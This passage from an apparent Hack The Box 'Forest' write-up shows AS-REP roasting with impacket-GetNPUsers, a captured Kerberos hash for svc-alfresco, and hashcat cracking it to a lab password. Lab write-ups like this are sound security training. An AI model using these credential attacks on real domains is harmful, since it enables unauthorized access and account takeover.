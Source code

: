 ## Initial Access

### GetNPUsers

With our user list, we can check to see if any of the user accounts have `UF_DONT_REQUIRE_PREAUTH` enabled. If so, we'll be able to grab a kerberos hash and hopefully crack it.

```sh
┌──(pl4stic㉿kali)-[~/htb/forest]
└─$ impacket-GetNPUsers -no-pass -usersfile users.txt htb.local/
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:2f12281e26a7a64c0950338661e07063$211f14809a6db4a9ec60870c956ed39ecef88d488521a91c467f153b3622186261e36fc26e469bdb49d67ec4d6831f4171c1898592f7dea727bd828c4c67dc4cf2146c1f6a4f9af843a8d2a1c9d9c328a15776d245c3adf9b9d3b42a2c56fbcd24d48d55eef6b8184a7537b9ef22330151df861e7ed5517308e98c468bb577dcf4dd899532b1ac5d30a449e36b89ebbdf42450fad1e3686fed706b06332f8ef9c3892fcf60ff54f0b8fb075b3d5e310df5ef745a597f3e8a5fb3489581df9ec1903799af921f0c9653a1063bcfe3e30d1db81f82669785c389354ab7c38b0f17349b3f3efe61
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
```

Looks like the service account `svc-alfresco` was misconfigured and gave us their hash, let's try and crack it.

#### Hash Crack

```sh
┌──(pl4stic㉿kali)-[~/htb/forest]
└─$ hashcat -m 18200 svc-alfresco_hash.txt /usr/share/wordlists/rockyou.txt

[...snip...]

$krb5asrep$23$svc-alfresco@HTB.LOCAL:2f12281e26a7a64c0950338661e07063$211f14809a6db4a9ec60870c956ed39ecef88d488521a91c467f153b3622186261e36fc26e469bdb49d67ec4d6831f4171c1898592f7dea727bd828c4c67dc4cf2146c1f6a4f9af843a8d2a1c9d9c328a15776d245c3adf9b9d3b42a2c56fbcd24d48d55eef6b8184a7537b9ef22330151df861e7ed5517308e98c468bb577dcf4dd899532b1ac5d30a449e36b89ebbdf42450fad1e3686fed706b06332f8ef9c3892fcf60ff54f0b8fb075b3d5e310df5ef745a597f3e8a5fb3489581df9ec1903799af921f0c9653a1063bcfe3e30d1db81f82669785c389354ab7c38b0f17349b3f3efe61:s3rvice
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:2f12281e26a7a6...3efe61
Time.Started.....: Fri Feb 14 15:51:39 2025 (1 sec)
Time.Estimated...: Fri Feb 14 15:51:40 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3293.1 kH/s (0.98ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4087808/14344385 (28.50%)
Rejected.........: 0/4087808 (0.00%)
Restore.Point....: 4083712/14344385 (28.47%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
```